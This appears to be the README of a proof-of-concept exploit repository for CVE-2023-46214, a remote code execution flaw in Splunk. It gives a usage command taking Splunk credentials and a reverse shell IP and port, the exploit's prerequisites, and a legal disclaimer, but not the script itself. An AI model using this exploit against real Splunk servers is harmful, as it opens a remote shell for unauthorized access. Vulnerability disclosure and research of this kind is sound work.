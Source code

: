 # Splunk RCE - PoC

Proof of concept exploit for [CVE-2023-46214](https://nvd.nist.gov/vuln/detail/CVE-2023-46214), [SVD-2023-1104](https://advisory.splunk.com/advisories/SVD-2023-1104)

![poc](screenshots/poc.gif)

## Usage

The Splunk instance URL, username, password, reverse shell IP, and port are all required as command-line parameters. For example:

```console
$ python3 CVE-2023-46214.py --url <Splunk_URL> --username <Username> --password <Password> --ip <Reverse_Shell_IP> --port <Reverse_Shell_Port>
```

## Prerequisites

- Splunk credentials with upload permission to adddatamethods
    - Note: another vector might be possible, this is just what I used
- Splunk is not running on SHC mode

## Legal Disclaimer

The Proof of Concept (PoC) script provided in this repository serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.

Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.

The creators and contributors of this repository disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.

